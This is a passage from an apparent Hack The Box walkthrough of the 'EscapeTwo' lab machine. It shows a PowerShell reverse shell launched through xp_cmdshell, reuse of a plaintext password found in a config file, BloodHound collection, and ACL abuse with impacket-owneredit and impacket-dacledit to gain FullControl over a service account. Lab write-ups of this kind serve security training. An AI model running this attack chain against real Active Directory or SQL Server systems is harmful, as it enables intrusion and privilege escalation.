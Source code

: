 ```
xp_cmdshell powershell -e <base64 payload>
```
![sa revshell](/images/htb/machines/EscapeTwo/sa-revshell-powershell.png)

Successfully obtained a reverse shell as user 'sql_svc'!

![sql_svc shell](/images/htb/machines/EscapeTwo/sql-svc-shell.png)

## User Access

As 'sql_svc', we find a config file containing credentials:

![sql_svc creds](/images/htb/machines/EscapeTwo/sql-svc-creds-found.png)

The config file reveals credentials for the 'sql_svc' user. Testing these credentials against other accounts, we discover that 'ryan' uses the same password.

Let's run a quick check to confirm we can authenticate as 'ryan':

```
nxc smb dc01.sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3'
```

![ryan-same-password](/images/htb/machines/EscapeTwo/ryan-pwned-same-password.png)

Great! We can authenticate as 'ryan' and can grab the user.txt flag.

![ryan-pwned](/images/htb/machines/EscapeTwo/user-pwned.png)

## Privilege Escalation

Let's further enumerate our access as 'ryan' using BloodHound to understand our permissions in the Active Directory environment. Netexec does have a bloodhound collection mode that we can utilize.

```
nxc ldap dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' --bloodhound --collection All -d sequel.htb --dns-server 10.10.11.51
```

After analyzing the BloodHound results, we discover that 'ryan' has WriteOwner access to the 'ca_svc' account. This is a significant privilege that we can exploit.

![ryan-writeowner](/images/htb/machines/EscapeTwo/ryan-permissions-write.png)

To abuse the WriteOwner access:

1. Use impacket-owneredit to take ownership of the 'ca_svc' account:
```
impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51   
```

2. Use impacket-dacledit to modify ACLs and grant full control:
```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
```
